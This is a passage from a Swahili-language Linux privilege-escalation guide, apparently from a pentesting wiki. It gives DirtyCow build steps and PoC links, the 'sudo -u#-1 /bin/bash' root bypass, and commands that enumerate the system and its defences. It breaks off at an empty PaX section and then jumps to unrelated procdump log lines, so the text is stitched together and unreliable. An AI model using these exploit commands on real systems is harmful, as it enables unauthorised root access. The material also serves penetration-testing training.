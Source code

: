 Daima **tafuta toleo la kernel kwenye Google**, labda toleo la kernel lako limeandikwa katika exploit fulani ya kernel na hivyo utakuwa na uhakika kwamba exploit hiyo inafanya kazi.

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
```bash
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```
### Toleo la Sudo

Kulingana na toleo za sudo zilizo na udhaifu zinazoonekana katika:
```bash
searchsploit sudo
```
Unaweza kuangalia ikiwa toleo la sudo lina udhaifu kwa kutumia grep hii.
```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
#### sudo < v1.28

Kutoka kwa @sickrov
```
sudo -u#-1 /bin/bash
```
### Dmesg signature verification failed

Angalia **smasher2 box of HTB** kwa **mfano** wa jinsi vuln hii inavyoweza ku-exploited
```bash
dmesg 2>/dev/null | grep "signature"
```
### Kukusanya taarifa zaidi za mfumo
```bash
date 2>/dev/null #Date
(df -h || lsblk) #System stats
lscpu #CPU info
lpstat -a 2>/dev/null #Printers info
```
## Orodhesha ulinzi unaowezekana

### AppArmor
```bash
if [ `which aa-status 2>/dev/null` ]; then
aa-status
elif [ `which apparmor_status 2>/dev/null` ]; then
apparmor_status
elif [ `ls -d /etc/apparmor* 2>/dev/null` ]; then
ls -d /etc/apparmor*
else
echo "Not found AppArmor"
fi
```
### Grsecurity
```bash
((uname -r | grep "\-grsec" >/dev/null 2>&1 || grep "grsecurity" /etc/sysctl.conf >/dev/null 2>&1) && echo "Yes" || echo "Not found grsecurity")
```
### PaX
```bash
```

[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714